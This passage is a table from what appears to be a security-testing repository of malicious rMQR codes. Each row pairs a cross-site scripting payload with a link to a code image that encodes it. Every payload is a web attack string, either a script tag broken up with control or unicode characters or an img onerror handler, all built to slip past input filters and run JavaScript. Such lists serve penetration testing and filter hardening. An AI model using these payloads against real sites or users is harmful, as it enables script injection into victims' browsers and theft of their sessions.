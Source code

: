 | ``"`'><script>\xE1\x9A\x80javascript:alert(1)</script>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/245.png) |
| ``"`'><script>\x0Cjavascript:alert(1)</script>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/246.png) |
| ``"`'><script>\x2Bjavascript:alert(1)</script>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/247.png) |
| ``"`'><script>\xF0\x90\x96\x9Ajavascript:alert(1)</script>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/248.png) |
| ``"`'><script>-javascript:alert(1)</script>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/249.png) |
| ``"`'><script>\x0Ajavascript:alert(1)</script>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/250.png) |
| ``"`'><script>\xE2\x80\xAFjavascript:alert(1)</script>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/251.png) |
| ``"`'><script>\x7Ejavascript:alert(1)</script>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/252.png) |
| ``"`'><script>\xE2\x80\x87javascript:alert(1)</script>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/253.png) |
| ``"`'><script>\xE2\x81\x9Fjavascript:alert(1)</script>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/254.png) |
| ``"`'><script>\xE2\x80\xA9javascript:alert(1)</script>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/255.png) |
| ``"`'><script>\xC2\x85javascript:alert(1)</script>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/256.png) |
| ``"`'><script>\xEF\xBF\xAEjavascript:alert(1)</script>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/257.png) |
| ``"`'><script>\xE2\x80\x83javascript:alert(1)</script>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/258.png) |
| ``"`'><script>\xE2\x80\x8Bjavascript:alert(1)</script>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/259.png) |
| ``"`'><script>\xEF\xBF\xBEjavascript:alert(1)</script>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/260.png) |
| ``"`'><script>\xE2\x80\x80javascript:alert(1)</script>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/261.png) |
| ``"`'><script>\x21javascript:alert(1)</script>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/262.png) |
| ``"`'><script>\xE2\x80\x82javascript:alert(1)</script>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/263.png) |
| ``"`'><script>\xE2\x80\x86javascript:alert(1)</script>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/264.png) |
| ``"`'><script>\xE1\xA0\x8Ejavascript:alert(1)</script>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/265.png) |
| ``"`'><script>\x0Bjavascript:alert(1)</script>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/266.png) |
| ``"`'><script>\x20javascript:alert(1)</script>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/267.png) |
| ``"`'><script>\xC2\xA0javascript:alert(1)</script>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/268.png) |
| `"/><img/onerror=\x0Bjavascript:alert(1)\x0Bsrc=xxx:x />` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/269.png) |
| `"/><img/onerror=\x22javascript:alert(1)\x22src=xxx:x />` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/270.png) |
| `"/><img/onerror=\x09javascript:alert(1)\x09src=xxx:x />` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/271.png) |
| `"/><img/onerror=\x27javascript:alert(1)\x27src=xxx:x />` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/272.png) |
| `"/><img/onerror=\x0Ajavascript:alert(1)\x0Asrc=xxx:x />` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/273.png) |
| `"/><img/onerror=\x0Cjavascript:alert(1)\x0Csrc=xxx:x />` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/274.png) |
| `"/><img/onerror=\x0Djavascript:alert(1)\x0Dsrc=xxx:x />` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/275.png) |
| `"/><img/onerror=\x60javascript:alert(1)\x60src=xxx:x />` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/276.png) |
| `"/><img/onerror=\x20javascript:alert(1)\x20src=xxx:x />` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/277.png) |
| `<script\x2F>javascript:alert(1)</script>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/278.png) |
| `<script\x20>javascript:alert(1)</script>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/279.png) |
| `<script\x0D>javascript:alert(1)</script>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/280.png) |
| `<script\x0A>javascript:alert(1)</script>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/281.png) |